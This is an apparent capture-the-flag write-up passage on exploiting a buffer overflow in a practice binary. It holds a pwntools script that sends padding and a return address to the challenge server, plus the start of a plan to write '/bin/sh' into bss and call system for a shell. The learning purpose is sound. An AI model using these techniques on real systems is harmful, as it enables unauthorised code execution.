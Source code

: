```c
  vuln();
}
```

- We have a `system` function.
- We definitely have an overflow.
- However, we do not have a `/bin/sh` string in the code that we can use to pass in `system`.

## Exploiting

We have a script from before where we just called the `win` function:

```python
from pwn import *

#p = process("./server")
p = remote("thekidofarcrania.com", 4902)
padding = b"\x41"*60

win = 0x08048586

p.recv()

p.sendline(padding + p32(win))

p.interactive()
```

One potential solution can be using `ret2libc` OR we can write `/bin/sh` to the `bss` segment (where all of the uninitialized variables go) and then pass it in to the system function and we should have a shell.

We can do this in 2 stages.

### Stage 1

In this stage we just need to overflow buffer and then write `/bin/sh` to the bss segment.

We can find the `_bss_start` using `readelf -s`.

```python
root:shelltime/ # readelf -s server | grep bss 
    72: 0804a080     0 NOTYPE  GLOBAL DEFAULT   25 __bss_start
```

![gdb](/assets/img/ctflearn/shell-time-readelf.png)

Now we have a address to write to and now we need the address for the `system` function, `vuln` function so we can return to it and cause another overflow and address for the `gets` function.

![gdb](/assets/img/ctflearn/shell-time-function-addr.png)
